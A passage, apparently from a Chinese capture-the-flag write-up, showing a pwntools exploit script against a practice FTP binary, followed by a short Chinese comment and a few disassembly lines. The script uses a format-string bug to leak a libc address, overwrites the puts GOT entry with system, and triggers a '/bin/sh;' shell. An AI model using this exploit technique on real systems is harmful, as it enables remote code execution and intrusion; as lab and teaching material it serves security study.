 	r.sendline(password2)

	r.recvuntil("ftp>")

	r.sendline('put')

	r.recvuntil("please enter the name of the file you want to upload:")

	r.sendline('aaaa')

	r.recvuntil("then, enter the content:")

	r.sendline(p32(puts_got)+'%7$s')

	r.recvuntil("ftp>")

	r.sendline('get')

	r.recvuntil("enter the file name you want to get:")

	r.sendline('aaaa')

	puts_addr=u32(r.recv()[4:8])

	libc = LibcSearcher("puts", puts_addr)

	base_addr=puts_addr-libc.dump('puts')

	system_addr=base_addr+libc.dump('system')

	payload=fmtstr_payload(7, {puts_got: system_addr})

	r.recvuntil("ftp>")

	r.sendline('put')

	r.recvuntil("please enter the name of the file you want to upload:")

	r.sendline('/bin/sh;')

	r.recvuntil("then, enter the content:")

	r.sendline(payload)

	r.recvuntil("ftp>")

	r.sendline('get')

	r.recvuntil("enter the file name you want to get:")

	r.sendline('/bin/sh;')

	r.recvuntil("ftp>")

	r.sendline('dir')

	r.interactive()

这里输入的/bin/sh;是为了防止后面多出来的aaaa，虽然我也不知道这里的aaaa是哪里来的，如果不加分号就会出错。

	0x8048746 <show_dir+95> mov edx, dword ptr [ebp - 0x14]

	0x8048749 <show_dir+98> mov eax, dword ptr [ebp - 0x10]

	0x804874c <show_dir+101> add eax, edx
